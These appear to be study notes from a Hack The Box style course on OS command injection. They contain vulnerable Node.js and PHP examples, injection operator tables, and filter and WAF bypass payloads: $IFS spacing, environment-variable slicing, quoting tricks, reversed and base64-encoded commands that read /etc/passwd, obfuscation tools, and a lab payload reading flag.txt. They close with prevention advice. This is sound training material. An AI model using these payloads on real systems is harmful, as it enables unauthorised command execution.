

Command Injection vulnerability is among the most critical types of vulnerabilities. It allows us to execute system commands directly on the back-end hosting server, which could lead to compromising the entire network.

TYPE OF INJECTIONS VULN

Injection	|Description
|-|-|
OS Command Injection|	Occurs when user input is directly used as part of an OS command.
Code Injection	|Occurs when user input is directly within a function that evaluates code.
SQL Injections|	Occurs when user input is directly used as part of an SQL query.
Cross-Site Scripting/HTML Injection|	Occurs when exact user input is displayed on a web page.

other injections are : LDAP injection, NoSQL Injection, HTTP Header Injection, XPath Injection, IMAP Injection, ORM Injection,

JS(nodejs)

    app.get("/createfile", function(req, res){
        child_process.exec(`touch /tmp/${req.query.filename}.txt`);
    })

PHP

    <?php
    if (isset($_GET['filename'])) {
        system("touch /tmp/" . $_GET['filename'] . ".pdf");
    }
    ?>

**Detection**

The process of detecting basic OS Command Injection vulnerabilities is the same process for exploiting such vulnerabilities. We attempt to append our command through various injection methods. If the command output changes from the intended usual result, we have successfully exploited the vulnerability.

This may not be true for more advanced command injection vulnerabilities because we may utilize various fuzzing methods or code reviews to identify potential command injection vulnerabilities

For injecting the cmd we use the following operator.

Injection Operator |	Injection Character|	URL-Encoded Character | 	Executed Command
|-|-|-|-|
Semicolon|	;|	%3b|	Both
New Line|	\n|	%0a|	Both
Background|	&|	%26|	Both (second output generally shown first)
Pipe|	\|\|	|%7c|	Both (only second output is shown)
AND|	&&|	%26%26|	Both (only if first succeeds)
OR	|||	|%7c%7c|	Second (only if first fails)
Sub-Shell|	``|	%60%60	|Both (Linux-only)
Sub-Shell|	$()	|%24%28%29|	Both (Linux-only)

operator used in injection 

Injection Type	|Operators
|-|-|
SQL Injection	|' , ; -- /* */
Command Injection	|; &&
LDAP Injection|	* ( ) & |
XPath Injection	|' or and not substring concat count
OS Command Injection|	; & |
Code Injection	|' ; -- /* */ $() ${} #{} %{} ^
Directory Traversal/File Path Traversal|../ ..\\ %00
Object Injection|	; & |
XQuery Injection|	' ; -- /* */
Shellcode Injection|	\x \u %u %n
Header Injection|	\n \r\n \t %0d %0a %09

# Identifying Filters
how command injections may be detected and blocked and how we can identify what is being blocked.

## **Filter/WAF Detection**

we see it in the field where the output is displayed, meaning that it was detected and prevented by the PHP web application itself. If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF.

the web application either detected a blacklisted character or detected a blacklisted command, or both. So, let us see how to bypass each.

## **Blacklisted Characters**
1. Identifying Blacklisted Character

## **Bypassing Space Filters**

There are many ways to add a space character without actually using the space character!
1. Using Tabs eg %09
2. Using $IFS eg 127.0.0.1%0a${IFS}
3. Using Brace Expansion eg {ls,-la}

## **Bypassing slash `/` or backslash `\` or semicolumn `;`**

Linux

`echo ${PATH:0:1}` this will gives us the `/` 
`echo ${LS_COLORS:10:1}` this will give us the `;`

Widows:

`echo %HOMEPATH:~6,-11%`   this will give `\` `$env:HOMEPATH[0]`this one in powershell

**Character Shifting**

    echo $(tr '!-}' '"-~'<<<[)

## **Bypassing Blacklisted Commands**

Linux & Windows
- Characters are a single-quote ' and a double-quote ", in addition to a few others. `w'h'o'am'i` `w"h"o"am"i`
- `\` it is worked only on linux `w\ho\am\i`
- `^` it will worked only on windows `who^ami`

**Case Manipulation**
linux cmi is case sensitive but windows pwershell is not case sensitive `whoami` is same as `WhOMi`. so for linux if we want to work it the we have to take help of other cmd `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` `$(a="WhOaMi";printf %s "${a,,}")`

**Reversed Commands**

Linux

    echo 'whoami' | rev                       #create rev string
    $(rev<<<'imaohw')                         #reverse the string as payload

Windows

    "whoami"[-1..-20] -join ''                #create rev string
    iex "$('imaohw'[-1..-20] -join '')"       #execute the reverse cmd 

**Encoded Commands**
utilize various encoding tools, like base64 (for b64 encoding) or xxd (for hex encoding).

    echo -n 'cat /etc/passwd | grep 33' | base64     #encode the cmd

create a command that will decode the encoded string in a sub-shell ($()), and then pass it to bash to be executed (i.e. bash<<<), as follows:

    bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

in windows

    [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami')) #windews
    echo -n whoami | iconv -f utf-8 -t utf-16le | base64                          #linux
    iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"     #decode

## Evasion Tools
[Linux (Bashfuscator)](https://github.com/Bashfuscator/Bashfuscator)

    Keshri@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
    Keshri@htb[/htb]$ cd Bashfuscator
    Keshri@htb[/htb]$ pip3 install setuptools==65
    Keshri@htb[/htb]$ python3 setup.py install --user
    cd ./bashfuscator/bin/

[DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation)

    PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
    PS C:\htb> cd Invoke-DOSfuscation
    PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
    PS C:\htb> Invoke-DOSfuscation

If we do not have access to a Windows VM, we can run the above code on a Linux VM through pwsh.

## Command Injection Prevention
1. always avoid using functions that execute system commands
2. Instead of using system command execution functions, we should use built-in functions that perform the needed functionality, as back-end languages usually have secure implementations of these types of functionalities
3. we should always validate and then sanitize the user input. 
4. can be used with the filter_var in php to filter email, urls and even ip
5. we can use a Regular Expression regex with the preg_match function
6. we can also use libraries to validate various standard formats, like is-ip
7. we should still perform sanitization and remove any special characters not required for the specific format, as there are cases where input validation may fail

filter the other special character

    $ip = preg_replace('/[^A-Za-z0-9.]/', '', $_GET['ip']);    #php
    var ip = ip.replace(/[^A-Za-z0-9.]/g, '');                 #js
    
    #nodejs
    import DOMPurify from 'dompurify';
    var ip = DOMPurify.sanitize(ip); 

to=&from=2380029473.txt &c\a\t%09${PATH:0:1}flag.txt&finish=1&move=1